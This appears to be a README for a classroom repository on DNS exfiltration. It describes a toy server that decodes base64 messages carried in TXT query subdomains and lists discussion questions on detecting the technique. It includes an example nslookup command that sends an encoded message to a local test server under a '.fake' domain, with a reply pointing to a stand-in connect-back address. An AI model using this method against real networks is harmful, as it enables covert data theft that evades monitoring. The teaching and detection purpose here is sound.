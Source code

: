 # DNSexfil
This repo supports the begins of a classroom discussion about DNS exfiltration.

The "hello" returns the decoded message sent in a DNS query, along with the IP address the client would connect with.  It is a student effort to modify the server to handle a proper exfiltration.

dns_exfil_server.py as is responses only to TXT queries. The first subdomain is assumed to be a base64 URL encoded message.

Example, assuming dns_exfil_server.py is running locally: 
```
nslookup -q=txt VGhpcyBpcyBteSBtZXNzYWdlIHRvIHRoZSBzZXJ2ZXIsIHlvdXIgc2VydmFudA.fake 127.0.0.1
DNS request timed out.
    timeout was 2 seconds.
Server:  UnKnown
Address:  127.0.0.1

VGhpcyBpcyBteSBtZXNzYWdlIHRvIHRoZSBzZXJ2ZXIsIHlvdXIgc2VydmFudA.fake     text =

        "This is my message to the server, your servant. Server reply: connect to 11.22.33.44:5678"
```

Student discussion  
- How much data can be sent in a single DNS query?
- How would the affected site discover the exfiltration?
- Should the client after the hello exchange, shift to HTTPS?
- Would a DNS server discover the exfiltration?
- Would a network firewall discover the exfiltration?
- Would a DLP solution discover the exfiltration?
- What happens to the exfilration if a UDP packet fails?
- Is adding encryption needed?
- How would you add encryption?
- Does the exfiltration care about losing UDP packets?
- What advantages/disadvantages does DNS over HTTPS (DoH) provide?
